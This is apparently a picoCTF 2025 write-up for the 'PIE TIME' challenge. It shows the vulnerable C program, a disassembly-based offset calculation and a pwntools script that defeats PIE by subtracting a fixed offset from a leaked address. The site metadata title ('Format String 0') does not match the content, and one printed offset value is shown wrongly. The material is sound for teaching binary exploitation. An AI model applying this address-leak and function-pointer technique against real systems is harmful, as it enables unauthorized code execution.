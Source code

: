 ```yaml
---
title: Format String 0
parent: easy
grand_parent: pwn
great_grand_parent: PicoCTF
nav_order: 3
---
```


# PIE TIME - PicoCTF 2025

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** PIE, Offset Calculation, pwntools, pwndbg

---

## Challenge Description

> Can you try to get the flag? Beware we have PIE!
>
> Files provided:
> - `vuln` (binary)
> - `vuln.c` (source code)
> - Remote instance: `nc rescued-float.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   Can you figure out what changed between the address you found locally and in the server output?
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- PIE (Position Independent Executable) is enabled

> PIE, or Position Independent Executable, randomizes the base address of the binary at runtime, meaning absolute addresses change every run. This prevents us from hardcoding the address of win(). However, offsets between functions remain constant because they are relative to the PIE base.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### Key Observations

- The program directly prints the address of `main()` at runtime
- The program allows arbitrary function pointer execution by letting us input any address to call
- PIE randomizes base addresses, but internal offsets remain constant
- The `win()` function reads and prints the flag if executed

---

## Static Binary Analysis

We analyze the binary with pwndbg to find the static offset between main() and win():

```sh
$ pwndbg ./vuln           
[snip...]
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
[snip...]
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
[snip...]
```

### Offset Calculation

```
$ python3
>>> main_addr = 0x133d  
>>> win_addr  = 0x12a7  
>>> offset = main_addr - win_addr
>>> print(offset)
0x96
```

**The key realization is that this offset remains fixed regardless of PIE randomization.**

---

## Exploitation

### Plan

1. Leak the runtime address of main() (given).
2. Subtract 0x96 to calculate the runtime address of win().
3. Input this address and trigger execution

### Manual Exploitation

```
$ nc rescued-float.picoctf.net <port>

Address of main: 0x613514f6433d
Enter the address to jump to, ex => 0x12345: 0x613514f642a7
Your input: 613514f642a7
You won!
picoCTF{<redacted>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'rescued-float.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# Parse leaked address of main
leak_line = conn.recvline().decode().strip()
main_addr = int(leak_line.split(": ")[1], 16)

# Offset from static analysis
offset = 0x96
win_addr = main_addr - offset

# Send calculated win address
conn.sendline(hex(win_addr))

# Receive flag
conn.recvuntil(b"You won!\n")
print(conn.recvall().decode())
```

---

## Key Takeaways
- PIE randomizes binary base addresses but not relative offsets
- Leaking function addresses enables reliable exploitation via offset calculation
- pwndbg are essential tools for static binary analysis
